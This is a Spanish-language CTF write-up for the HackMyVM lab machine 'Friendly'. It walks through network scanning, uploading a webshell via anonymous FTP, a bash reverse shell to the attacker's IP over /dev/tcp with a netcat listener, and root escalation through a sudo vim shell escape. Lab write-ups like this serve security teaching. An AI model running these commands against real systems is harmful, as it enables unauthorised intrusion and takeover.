 ```yaml
---
layout: post
author: Quino
title: Friendly, HACKMYVM
---
```


En este reto nos encontramos con escaneo , configuracion erronea en uno de sus servicios y escalado de privilegios con binario.

Este es el primer reto que consiguo hacer solo consultando la web de gotfbins para saber para aprender como usar el binario.

![portada](assets/images_friendly/friendly1.png)

## Herramientas y recursos web utilizados

- arp-scan
- nmap
- <a href="https://gtfobins.github.io/">gotfbins</a>

### Escaneo

Empezamos averiguando la ip de la maquina victima para ello ejecutamos la herramienta arp-scan nos fijamos en el resultado y buscamos la mac que empieza por 08:00 esa mac es de virtualbox.

Ejecutamos:

```bash
sudo arp-scan --localnet
```
![arp](assets/images_friendly/arp-scan.png)

Una vez obtenida la ip pasamos al escanear puertos

```bash
nmap -sC -sV -A -p- --min-rate 5000 $ip
```
![nmap](assets/images_friendly/nmap.png)

### Intrusion

Vemos que tiene el 21 y el 80 abierto en el 21 tenemos login anonynous y nos permite subir ficheros.

Nos subimos un webshell al servidor que podemos encontrar en github.

Creamos un archivo .html con el siguiente contenido , lo subimos y posteriormente lo ejecutamos a traves del webshell que subimos

```html
#!/bin/bash bash -i >& /dev/tcp/192.168.0.112/443 0>&1
```

![webshell](assets/images_friendly/webshell.png)

Antes de ejecutar desde el webshell el archivo que subimos debemos ponernos con netcat a la escucha.

```bash
nc -lnvp 443
```
 ![nc](assets/images_friendly/respuestanc.png)

### Escalada

Una vez con la tty en nuestra maquina atacante buscamos binarios por con permisos para ello probamos primero un :

```bash
sudo -l
```
![sudo](assets/images_friendly/sudo-l.png)

El binario que nos muestra nos sirve para la escalada de privilegios
podemos vistar gtofbins para consulta

Ahora ejecutamos vim como se indica <a href="https://gtfobins.github.io/">gotfbins</a>.

```bash
sudo vim -c ':!/bin/sh'
```
Obtendremos automaticamente root

![root](assets/images_friendly/rootuser.png)

Si os interesan las flags no os olvideis de buscarlas .

Gracias por leer este reto.
